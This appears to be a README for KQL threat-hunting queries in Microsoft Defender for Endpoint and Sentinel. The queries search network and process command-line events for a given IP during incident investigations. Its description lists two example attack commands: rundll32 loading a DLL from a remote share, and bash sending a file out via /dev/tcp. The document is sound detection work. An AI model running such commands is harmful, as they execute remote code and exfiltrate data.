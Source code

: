 # IP Lookup (Network & Commandline)

## Query Information

#### Description
This query can be used to perform a IP lookup on both the DeviceNetworkEvents as well as the commandline references. This can help in incident investigations to quickly find all the related logs and commandline references of the IP address. The *LookupIP* is used to set a IP on which you want to look for. This can eiter be a public or private address. Both ipv4 and ipv6 are supported The query has also a setting that you can change to only show commandline results, thent he line *| where CommandLineReference == true* needs to be uncommented. 

Two examples below are stated, which will be shown based on the commandline lookup. Remote downloads or executions of files can be an indicator of malicious activity.
```
rundll32.exe \\10.10.10.10\share\payload.dll,EntryPoint
bash.exe -c 'cat file_to_exfil.zip > /dev/tcp/192.168.1.10/24'
```

#### References
- https://lolbas-project.github.io/lolbas/Binaries/Rundll32/
- https://lolbas-project.github.io/lolbas/Binaries/Bash/
## Defender For Endpoint
```
// Set the IP address you are trying to lookup.
let LookupIP = "127.0.0.1";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where Timestamp > ago(SearchWindow)
     | where RemoteIP == LookupIP
     | project Timestamp, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the IP
let CommandLineReferences = DeviceProcessEvents
     | where Timestamp > ago(SearchWindow)
     | where ProcessCommandLine contains LookupIP
     | project Timestamp, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
     // If you do want to have raw logs remove the summarize below.
     // CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteURLs = make_set(RemoteUrl), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(Timestamp, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteIP
     | sort by LastMention
)
```
## Sentinel
```
// Set the IP address you are trying to lookup.
let LookupIP = "127.0.0.1";
let SearchWindow = 48h; //Customizable h = hours, d = days
// Collect all network evets to the RemoteIP
let NewtworkEvents = DeviceNetworkEvents
     | where TimeGenerated > ago(SearchWindow)
     | where RemoteIP == LookupIP
     | project TimeGenerated, DeviceName, ActionType, RemoteIP, RemotePort, RemoteUrl, InitiatingProcessCommandLine, InitiatingProcessAccountSid;
// Collect all commandline references of the IP
let CommandLineReferences = DeviceProcessEvents
     | where TimeGenerated > ago(SearchWindow)
     | where ProcessCommandLine contains LookupIP
     | project TimeGenerated, DeviceName, ActionType, FolderPath, ProcessCommandLine, AccountSid;
// Combine results
(union isfuzzy=true
     (NewtworkEvents),
     (CommandLineReferences)
     // If you do want to have raw logs remove the summarize below.
     // CommandLines and RemoteURLs can both be empty if there is no Commandline reference and a connection is only made to a IP not to a URL.
     | summarize RemoteURLs = make_set(RemoteUrl), CommandLines = make_set(ProcessCommandLine), LastMention = arg_max(TimeGenerated, *) by DeviceName
     // Add filter posibility to alter the search results if you only want to see commandline references. By default it includes both network and commandline references. If you only want to see commandline references uncommment the statment CommandLineReference == true
     | extend CommandLineReference = iff(CommandLines == @'[""]', false, true)
     //| where CommandLineReference == true
     | project-reorder LastMention, DeviceName, RemoteIP
     | sort by LastMention
)
```
